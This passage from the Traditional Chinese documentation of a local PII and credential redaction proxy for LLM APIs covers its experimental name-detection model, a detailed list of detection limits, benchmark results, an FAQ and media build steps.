以 `BENCH_RULES=proxy pnpm bench` 量測代理預設（42 條規則，`rules-12+intl-2+ext-1`）：`ENTROPY` 從 873 降為 18（翻譯目錄 `*.i18n.yaml` 以檔名為鍵的來源雜湊與 `@` 後的 commit id 不再遮），`CARD` 從 3 降為 0，`IP` 從 42 增為 44（`ip-cgnat-ula` 遮到 SSRF 測試中真正的 `100.64.0.1` 與 `fc00::1`），其他每一類的數量與上表完全相同，其餘新規則在這份語料上新增 0 個遮罩，耗時約 7–9 秒（依機器而定）。`BENCH_RULES=all` 同時啟用預設與嚴格版，結果是兩者的聯集。英文程式碼語料幾乎不含這類識別碼形狀，所以這個數字只說明它們不會誤遮一般程式碼；隨機日誌 id 上的誤遮率由 `rules-synthetic-corpus` 的上限測試把關。與識別碼格式完全相同的值本來就會被遮：任何 `123-45-6789` 形式的數字（SSN 沒有檢查碼）、`+` 後接 10–15 位數且國碼已分配的數字（例如寫成 `+12345678901` 的帶號整數），以及約 1/10 到 1/97 通過檢查碼的同格式隨機值。語料是英文程式碼；以中文為主的散文語料尚未量測。

## 15. 尚待完成

- 對真實 OpenAI API、Codex CLI 與直接使用的 Anthropic SDK 做端對端驗證，並以 `e2e:real` 對 Anthropic 執行（Claude Code 與 dsh 經由 Anthropic Messages 已於 2026-10-14 在最終建置上驗證，見[第 13 節](#13-測試)）。
- 量測中文散文語料的誤遮率。
- 發布到 npm。套件已可發布（`bin` 入口 `redaction-proxy`，`npm pack` 只含 `lib/`、README、LICENSE、NOTICE、`config.example.toml`），但 `package.json` 仍是 `"private": true`；決定發布時刪掉這一行即可（若改用 scoped 名稱，另加 `"publishConfig": { "access": "public" }`）。`prepublishOnly` 會先跑型別檢查與測試。授權條款已定為 Apache-2.0（[LICENSE](../LICENSE)）。
- 在 linux/amd64 上建置並執行 Docker 映像，並以真模型執行人名模型版映像（linux/arm64 的映像已於 2026-10-13 驗證，見[第 13 節](#13-測試)）。
- 將 dsh-privacy-router 的串流還原器統一到這份核心。

## 16. 人名模型（實驗性）

預設關閉。設定後，一個小型本機模型（[`Wismut/nym-pii-multilingual-small`](https://huggingface.co/Wismut/nym-pii-multilingual-small)，MIT 授權，edge-int8，108 MB）會在**你**寫的文字中另外遮掉人名（`⟦NAME_1⟧`）、公司（`⟦ORG_1⟧`）、地名（`⟦LOC_1⟧`）與地址（`⟦ADDR_1⟧`）。它是實驗性功能：會漏掉一些人名，也會把一些不是人名的字遮掉。以下數字來自合成資料，在 Apple M5 Max CPU 上量測。

它讀什麼、不讀什麼：

- 只讀使用者訊息中你自己寫的一般文字段落。系統提示、助理回覆、工具結果、程式碼區塊，以及看起來像程式碼、JSON、YAML 或日誌的行都不讀，所以貼上的程式碼或日誌裡的人名在那裡不會被找到。
- 它找到的人名、公司、地名、地址，會在整個請求中遮掉：系統提示、助理回覆、工具結果、工具呼叫參數（找到 `許雅雯` 也遮 `許 雅 雯`，找到 `Jordan` 也遮 `JORDAN`）。每種寫法各有自己的佔位符，還原時才能逐字寫回原本的寫法。以空格分詞的文字只比對完整單字（`Leeds` 裡的 `Lee` 不遮）；中文、日文、韓文在任何位置都比對。只有一個字的值只在找到的位置遮。
- 全名只會遮其他地方的全名：找到 `Lee Morgan` 後，單獨出現的 `Lee`、`Morgan`，或 `Lee "Lefty" Morgan`，都照原樣送出。編碼過的寫法（URL 中的 `Lee%20Morgan`）與黏在一起的寫法（`LeeMorgan`）既不遮也不拒絕。
- 模型誤認成人名的字也會在整個請求中被遮，靠允許清單擋下。
- 規則優先：與 email、金鑰等規則偵測重疊的範圍會被捨棄。
- `Kafka`、`Docker`、`Podman`、`Default`、`High`、`Low` 這類字在預設允許清單（`nameModel.allowlist`）中。
- 範圍可能太短或太長。中文人名只找到一部分時，其餘的字照原樣送出（`林小明` → `⟦NAME_1⟧明`）；中文範圍也可能多帶下一個字（`刘建国会`）。日文人名後的敬稱與助詞（`さん`、`様`、`に`、`は` 等）會從範圍中切掉，所以 `佐藤美咲さんに` 送出時是 `⟦NAME_1⟧さんに`。

實測（保留集只跑一次；未註明者為召回率）：

| 項目 | 結果 | 說明 |
| --- | --- | --- |
| 一般文字中的人名，英文／日文 | 1.00／1.00 | |
| 一般文字中的人名，繁體中文 | **0.87** | 未達 0.90 目標：大約每 8 個人名漏 1 個。 |
| 一般文字中的人名，簡體中文 | 保留集 1.00、開發集 0.75 | 樣本小（開發集 16 個人名）。 |
| 貼上的程式碼、日誌、JSON 中的人名 | 0.10–0.30 | 設計上不處理；這類人名請列進 `terms`。 |
| 一般文字中的公司／地名／地址 | 0.71／0.88／0.82 | 地址：簡體中文 0.42、法文 0.67。 |
| 精確率 | 0.94 | 被遮的範圍中確實是人名、公司或地名的比例。 |
| 技術對話中的誤遮 | 每千句 46 處（開發集 113 處） | 量測時尚未有允許清單；多半是 `Default` 或工具名稱。加上預設允許清單後，開發集每千句 4 處，但清單正是依這組資料建的。每一處都會在整個請求中被遮。 |
| 程式碼中的誤遮 | 0 | 程式碼不讀。 |
| 增加的記憶體 | 約 +420 MB | 512 token 視窗；處理過 16 KB 訊息後約 +440 MB。 |
| 增加的延遲 | 2 KB 中文一般文字 p95 約 130 ms，中英混合約 80 ms | 16 KB 中文一般文字約 1 秒。看過的段落會快取。 |

設定方式：

```sh
pnpm add -D onnxruntime-node@1.30.0 tokenizers@0.23.2  # 模型的執行環境，約 350 MB；只跑 pnpm install 不會安裝
node scripts/fetch-name-model.mjs ~/models/nym       # 從 Hugging Face 下載約 125 MB，並檢查 sha256
```

這個腳本從 `Wismut/nym-pii-multilingual-small` 的 `4348999cd3c2e20c49615e9af7c6bbb45b64cd85` 版本下載 `edge-int8/model_int8.onnx`、`edge-int8/config.json`、`edge-int8/tokenizer.json` 與 `README.md`（授權聲明），再在同一目錄寫出 `vocab.json`、`merges.txt`、`added_tokens.json`；代理載入這三個檔，不載入 12 MB 的 `tokenizer.json`，可省下約 220 MB 記憶體。接著在設定檔加上：

```json
{ "nameModel": { "dir": "/Users/you/models/nym" } }
```

或設定 `REDACTION_PROXY_NAME_MODEL_DIR=/Users/you/models/nym`。

| 鍵 | 預設 | 說明 |
| --- | --- | --- |
| `nameModel.dir` | 必填 | 腳本寫入的目錄，絕對路徑。 |
| `nameModel.threshold` | `0.3` | 越低找到越多，也越常遮到不是人名的字。 |
| `nameModel.categories` | `NAME`、`ORG`、`LOC`、`ADDR` | 要遮的類別。 |
| `nameModel.windowTokens`／`windowOverlap` | `512`／`128` | 每次模型推論的 token 數與重疊；視窗越大越耗記憶體，找到的人名也越少。 |
| `nameModel.allowlist` | 工具與設定值用字 | 整段完全相符就不遮；設定後取代預設清單。 |
| `nameModel.required` | `false` | 推論失敗時，`false` 讓該請求只用規則遮罩並在日誌記 `nameModel failed`；`true` 以 503 拒絕。 |

殘餘風險：人名模型的結果不一定每次相同。在 Responses 接續鏈上，一個請求找到的人名，下一個請求可能沒找到，這時編號移動，回送的佔位符照舊跳脫；短於記憶門檻（第 8 節）的值（例如單字人名）不記住，回送的佔位符無法保持編號；另一段對話把同一個 `NAME_n` 綁到別的值時，這個號碼也照舊跳脫（接續鏈已原樣送出過的除外）。

模型在開放連接埠之前載入；缺檔案或套件時啟動失敗並指出缺什麼。開啟模型會改變 policy digest，所以保存 span index 的宿主不會在新設定下接續舊的 index。

## 17. 完整限制清單

| 限制 | 意思 |
| --- | --- |
| 藏實體，不藏語意 | 上游仍讀得到佔位符周圍的一切。`⟦PATH_1⟧/clients/acme-layoffs.md` 依然透露很多。 |
| 人名、地址只有列出才遮 | 預設沒有自由文字的人名偵測，也沒有地址規則：地址是自由文字，沒有固定格式、檢查碼或關鍵詞，規則無法和一般句子區分。人名、公司名、代號要列進 `terms` 或 `projectNames`，或開啟[實驗性的人名模型](#16-人名模型實驗性)，但它會漏掉一些人名。病況、薪資照原樣送出。 |
| 有些欄位不遮 | 圖片、PDF 等 base64 檔案（純文字文件的內容照常遮罩）、音訊、`metadata`、工具名稱、帶簽章的 thinking 原樣轉送且不掃描，JSON 物件的鍵也是。在被遮文字中偵測到的值若也出現在這些欄位，整個請求預設以 422 拒絕；只出現在這些欄位的值照原樣送出。回送的工具呼叫輸入不論鍵名都遮（第 5 節）。 |
| Cursor 不能用 | Cursor 的自訂 base URL 請求是從 Cursor 自己的伺服器發出，連不到你的 `127.0.0.1`；而且 Cursor 後端在任何代理之前就看到未遮罩的提示。 |
| 有些拆開的寫法抓不到 | 偵測不到：點後加空格的私有 IP（`192. 168. 1. 2`）；被空格或換行拆開的 API 金鑰（高熵規則只抓得到部分片段）；寫成 `name @ domain`（`@` 兩側有空白，`wang.yichun @ example.tw`）或單獨用 ` at `（`wang.yichun at example.tw`）的 email 不遮，因為 shell 提示字元（`root @ web01.example.com`）、帳號標記（`cc @ alice.me`）、英文散文（`socket.io at github.com`）與矩陣程式碼（`a.b @ c.de`）長得一樣；這類 email 只有隱私分類器把關。抓得到：加了空格或連字號的 terms、`＠`、`(at)`、`[at]`、`[dot]`，以及中間有一個分隔符的身分證字號、統編、手機號碼；啟用延伸規則時（代理預設）也抓得到小寫字母開頭或夾不換行空白的身分證字號，以及以 `.`、`/`、`_` 分組或前 4 碼加括號的手機號碼。仍偵測不到：一般空白或連字號在其他位置的身分證字號（`A12345-6789`），以及小寫字母開頭又有一般空白或連字號的寫法（`a 123456789`）；沒有關鍵詞的護照與健保卡號（沒有檢查碼），以及以空白分組的護照號碼（`passport 312 345 678`）；`jwt=X` 中不是 JWT 形狀的值（`key = X` 指派由 `api-key` 讀，`jwt` 不在它的關鍵詞中；JWT 形狀的值本來就由 `api-key`、`token-format` 遮）。 |
| 有些編碼寫法抓不到 | 百分比編碼（percent-encoding）的值（`lin.yating%40example.com`、查詢字串裡的 `%E6%98%9F…`、`%2FUsers%2F…`）會解碼一層後偵測，遮罩範圍是編碼原文，回覆還原時寫回編碼原文。夾雜無效或截斷的位元組（`%FF`、在 `%E6` 處被截斷的 URL）不會讓其餘部分不解碼，解碼後的全形字元與零寬字元也和一般文字一樣折疊，緊接在無效位元組後面的號碼或金鑰（`%E6%2B886…`、`%E609-1234-5678`、`%FFsk-…`）也抓得到。啟用 `email-escaped` 時（代理預設），`@` 寫成 `&#64;`、`&#x40;`、`&commat;`、`\u0040` 的 email 也抓得到。偵測不到：編碼兩次的值（`%2540`）；表單編碼查詢中代表空格的 `+`（`星河+計畫`）；URL 裡經 base64 編碼的值（隱私路由只在工具輸出中解碼 base64）；緊接在無效位元組後面的身分證字號（`%E6A123456789`），因為 Big5 與 Shift-JIS 中緊接在前導位元組後面的字母是該字的一部分（`%A4A` 是「乙」）。同理，尾位元組為 `A` 的 Shift-JIS 字元可能讓 `%83AKIA…` 被遮成形似金鑰的範圍。 |
| 像佔位字的密碼不遮 | `api-key` 不遮 schema 用字、知名 API 欄位名稱（任何寫法）與範本佔位（`password: required`、`password: max_tokens`、`password: <your secret>`），所以真的用這類字當密碼時照原樣送出。由協定用字組成的 snake_case 密碼（`data_store`）只在綁定它的請求中遮，不記到之後的請求（見第 8 節）。 |
| 一種寫法一個佔位符 | `星河計畫`、`星河 計畫` 各有自己的佔位符。模型看不出它們是同一個 term，但每個位置都原樣還原，程式碼裡的識別字不會被改成另一種寫法。 |
| 只認標準佔位符 | 模型若把 `⟦EMAIL_1⟧` 改寫成 `[EMAIL_1]`，你會原樣看到它。 |
| 模型品質可能下降 | 需要直接操作被遮值的任務（例如把絕對路徑改成相對路徑）會變差。你會看到佔位符，不是靜默出錯。 |
| 會改動一些字元 | 預設把控制字元換成可見字元（`␛`），把原文中的 `⟦` `⟧` 換成 `⟪` `⟫`；有錨點、仍指向同一個值的回送佔位符除外：它在請求中第一次出現就在模型寫的工具呼叫輸入中（與該呼叫同一個助理回合的文字與推理不算，較早的助理回合算），或是代理在 Responses 接續鏈先前回覆的工具參數中留下的（第 8 節「回送的佔位符」）。 |
| 重啟會忘記接續對話與已知原始值 | Responses API 的 `previous_response_id` 依賴記憶體中最近 256 個回應；重啟或被擠出後，接續請求以 422 拒絕。已知原始值（第 8 節）重啟後也會忘記，平時也在最後一次偵測 24 小時後忘記（`knownOriginalsTtlSeconds`）。 |
| 本機預設沒有驗證 | 預設只綁定 `127.0.0.1`；沒設 `authToken` 時，你電腦上的任何程式都能使用它。網頁的請求（不允許的 `Origin`、DNS rebinding）以 403 拒絕。 |
| 工具參數只還原允許的類別 | 回應中 URL 內的佔位符保持原樣（合法的 `https://host/⟦PATH_1⟧` 也一樣）。工具參數只還原 `toolRestore` 允許的類別（預設 `PATH`、`TERM`、`PROJECT`），需要其他值的工具拿到佔位符，可能失敗，直到使用者為它開放。允許的類別照常還原並記入日誌，所以 shell 指令等仍可能把它們送出。 |
| 請求大小 | 本文超過 64 MiB 以 413 拒絕。 |
| 沒有上游逾時 | 代理不限制等待上游的時間；上游不回應時，請求一直等到用戶端自己的逾時或斷線，代理隨即中止上游請求。 |
| 真實服務只驗證過 DeepSeek 與 Anthropic | 2026-10-08 以[真實服務驗證工具](../e2e/real/README.md)對 DeepSeek Chat Completions 驗證，4 個情境全部通過。2026-10-13 經由 Claude Code 與 dsh 驗證 Anthropic Messages，2026-10-14 在最終的 0.3.0 建置上再次通過（見[第 13 節](#13-測試)）。OpenAI API、Codex CLI 與直接使用的 Anthropic SDK 尚未驗證；其餘測試與示範都用本機假上游。 |

## 18. 實測數字

| 項目 | 結果 | 代表什麼 |
| --- | --- | --- |
| 測試 | 2,079 個通過、8 個需要真模型而略過（36 個檔案、共 2,087 個） | 規則、引擎、對抗輸入、對假上游的三種 API 串流與非串流、Host／Origin／權杖檢查。 |
| 憑證誤遮 | 每千行程式碼 **0.85** 處 | 在不含真實金鑰的 DeepSeek Harness 原始碼上量測（69.8 萬行程式碼），平均約 1,180 行有一處被誤當成金鑰而遮掉。 |
| 還原失敗 | 0 | 遮罩成功的檔案全部都能逐位元組還原。 |
| 速度 | 約 85 萬行 / 約 5–8 秒 | 依機器而定；Apple M5 Max 約 5 秒。 |
| 合成多語提示，保留集第 2 版（盲寫、只跑一次） | 英文 1,527 個值、10 類 macro 平均完全遮蔽：核心預設 25.9%、代理預設 39.5%、加人名模型 44.8%；Presidio cutoff 0 為 40.4%、cutoff 0.4 為 37.8%。完全沒遮：核心預設 64.0%、代理預設 49.9%、加人名模型 35.6%、Presidio 29.3–35.0%。遮掉的範圍與敏感值重疊的比例：規則 94.3–95.8%、加人名模型 94.8%、Presidio 64.9–68.0%。中位數耗時：規則 0.10–0.12 ms、加人名模型 10.8 ms、Presidio 11.2–11.4 ms。全部 7 種語言的 macro 平均：核心預設 27.3%、代理預設 37.9%、加人名模型 44.4%（Presidio 34.5%、32.8%，只當英文分析，僅供參考）。還原：只用規則時 1,617 筆全部逐位元組還原，開啟人名模型時 1,587 筆（30 筆不一致） | `heldout-v2.jsonl`（SHA-256 `e3d45536…0bb04`）：英、繁中、簡中、日、韓、德、法共 1,617 筆、10,268 個敏感值、2,997 個困難反例，撰寫者沒看過規則與評測程式，約 60% 的值是非標準寫法；凍結後在 2026-10-07 只評分一次，使用代理預設的偵測器 `rules-6+intl-2+ext-1`（當時的 `ext-1` 只有現在 10 條延伸規則中的 5 條，v0.1.0 之前的修改沿用這個版本；人名模型是 `nym-edge-int8-2`，現在是 `nym-edge-int8-3`）。標準寫法與非標準寫法（英文、代理預設、完全遮蔽）：email 100%（n=107）／61.5%（n=148）、電話 70.4%／41.1%、身分證號 89.5%／30.4%、卡號 94.7%／0.0%（n=40）、IBAN 100%（n=15）／0.0%（n=46）、金鑰 95.9%／80.7%、主機 100%（n=93）／43.6%；100% 只出現在標準寫法，且樣本小。弱點（英文、代理預設）：非標準的 IBAN、卡號、身分證號大多抓不到，38% 的非標準 email 完全沒遮；路徑 88% 只遮掉一部分；沒有地址規則（0%）；人名要靠人名模型，完全遮蔽 49%（全部語言 52%）；電話完全遮蔽 51%（Presidio 85%），帶分機的 30 個沒有一個被完全遮蔽。量測之後的所有修改（偵測器從 `rules-6` 到 `rules-12`，見[第 12 節](#12-完整設定)與 README）都不在這些數字中，其中包括：`card-strict` 改認重新分組、點分隔、混用空格和 `-`，以及換行斷開的卡號（這次代理預設的英文卡號完全遮蔽 30.5%，低於核心預設的 44.1%）；人名模型的還原錯誤已修正：同一個名字的不同寫法（`Jordan`、`JORDAN`）現在各拿一個佔位符。保留集不以發布版偵測器重新評分：這些修改有些（例如 `card-strict` 那一項）是看過這些結果後做的，再評分一次就不是盲測；要有新的保留集數字，需要新的一組保留集。完整結果：[bench/results/public-bench-held-out-v2.md](../bench/results/public-bench-held-out-v2.md)。第 1 版（1,518 筆、較舊的 `rules-6+intl-1`、只有標準寫法）留作紀錄：[bench/results/public-bench-held-out.md](../bench/results/public-bench-held-out.md)。 |
| 合成多語提示，開發集（初步） | 代理預設（`rules-12+intl-2+ext-1`）、9 類 macro 平均完全遮蔽：英文 88.9%、全部語言 86.1% | 1,200 筆固定種子的提示（英、繁中、簡中、日），由規則作者撰寫、和規則一起調整，所以分數比保留集高得多；只當開發時的檢查。2026-10-13 以發布版偵測器重跑（含人名模型 `nym-edge-int8-3` 與 Presidio），每個系統的遮蔽結果都與 `rules-6` 時相同，只有耗時不同：[bench/results/public-bench-dev.md](../bench/results/public-bench-dev.md)。 |

誤遮的代價是模型看到一個不必要的佔位符，回覆時會被換回原值。語料是英文程式碼，中文散文的誤遮率尚未量測。以 `pnpm test`、`pnpm bench` 與 `pnpm run bench:public` 重現；加上 `--heldout bench/heldout/heldout-v2.jsonl`（或 `heldout-v1.jsonl`）可另外評分凍結的保留集；兩個檔案的 SHA-256 記在同目錄的 `MANIFEST`，載入時檢查（格式見 `bench/public/heldout.ts`）。

## 19. 常見問題

**用了它，對話就是私密的嗎？** 不是。它減少可偵測的個資與憑證外洩，但上游仍讀得到其餘內容。

**為什麼用 `⟦EMAIL_1⟧`，不用假的 email？** 實測時模型逐字保留佔位符的比例是 100%，假值只有 75%，而且假值造成了無法還原的靜默錯誤。

**我的名字會被遮嗎？** 列進 `terms` 就一定會。開啟實驗性人名模型時，你在訊息中寫到它通常會被遮，但不保證：繁體中文人名大約每 8 個漏 1 個，程式碼與日誌也不讀。

**為什麼請求被 422 拒絕？** 遮罩後的請求中仍有偵測到的值，通常是在代理不改寫的欄位（例如圖片 URL 或 metadata），或你設定了 `screen: "refuse"`。訊息會指出欄位，不含值。

**代理會存我的金鑰或對話嗎？** 金鑰原樣轉送，不儲存。對話不存，例外是記憶體中的兩樣東西：Responses API 接續用的最近 256 份輸入，以及偵測到的原始值（[第 8 節](#已知原始值)，預設從最後一次偵測起保留 24 小時）。兩者都不寫入磁碟，重啟即消失。

**能放在伺服器上給別人用嗎？** 不建議。`host` 改成非本機位址時必須設 `authToken`，但只有一個共用權杖、以明文 HTTP 傳送；記憶依用戶端憑證分開，共用同一把憑證（或代理備援金鑰）的呼叫者共用一個範圍（第 8 節）。它是給本機或容器網路用的。

## 20. README 圖片與影片

README 的圖片與影片都放在 `docs/media/`，可重新產生：

| 檔案 | 來源 | 重新產生 |
| --- | --- | --- |
| `hero.svg` | 手繪 SVG | 直接編輯 |
| `how-it-works.{en,zh-TW,zh-CN,ja}.svg`、`details-flow.zh-TW.svg` | `src/how-it-works.mjs` 的版面與各語言文字 | `node docs/media/src/how-it-works.mjs` |
| `results.svg` | 評測結果 JSON | `node bench/results-chart.mjs`；預設讀 `bench/results/public-bench-held-out-v2.json` 的英文提示，畫代理預設、加人名模型與 Presidio cutoff 0.4 三個系統；`--split allLanguages`、`--systems "名稱;名稱"`、`--input`、`--out`、`--label` 可改（見腳本開頭） |
| `src/captured.json` | 真實代理輸出：`lib/cli.js --demo`，以及另一個經代理送往本機假上游的串流請求 | `pnpm build && node docs/media/src/capture.mjs` |
| `before-after.png`、`intro.mp4`、`intro.gif` | `src/before-after.html`、`src/intro.html` 讀 `captured.json` | `PLAYWRIGHT=… FFMPEG=… node docs/media/src/render.mjs`（Playwright 與 ffmpeg 都不是儲存庫依賴，取得方式見腳本開頭） |

示範資料全是虛構的值（`example.test` 網域、虛構人名、假金鑰）。

## 來源聲明

部分遮蔽規則與引擎源自 [LYiHub/pub-dsh-privacy-router](https://github.com/LYiHub/pub-dsh-privacy-router)（MIT），經由 dsh-privacy-router fork 與 dsh-addons 移植。本專案以 Apache-2.0 授權（[LICENSE](../LICENSE)），[NOTICE](../NOTICE) 保留原作者的 MIT 版權聲明。
